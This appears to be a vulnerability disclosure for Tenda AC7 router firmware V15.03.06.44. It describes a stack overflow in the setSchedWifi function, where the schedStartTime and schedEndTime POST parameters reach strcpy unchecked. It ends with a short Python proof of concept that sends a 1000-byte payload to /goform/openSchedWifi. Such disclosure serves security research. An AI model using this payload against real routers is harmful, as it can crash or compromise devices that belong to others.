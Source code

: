 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

In the Tenda AC7V1.0 V15.03.06.44 has a stack overflow vulnerability in the `setSchedWifi` function. The `sched_start_time, sched_end_time` variable receives the `schedStartTime, schedEndTime` parameter from a POST request and is later assigned to the `wlan_switch` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedStartTime, schedEndTime`, the statement `strcpy(wlan_switch->begin_time, sched_start_time); strcpy(wlan_switch->end_time, sched_end_time);` can cause a buffer overflow. The user-provided `schedStartTime, schedEndTime` can exceed the capacity of the `wlan_switch` array, triggering this security vulnerability.

![image-20240318162711282](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318162711282.png)

![image-20240318162629776](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318162629776.png)

![image-20240318162651098](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318162651098.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

# data = {"schedWifiEnable":payload,"schedStartTime": 0}
data = {"schedWifiEnable":0,"schedStartTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240318162946485](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318162946485.png)
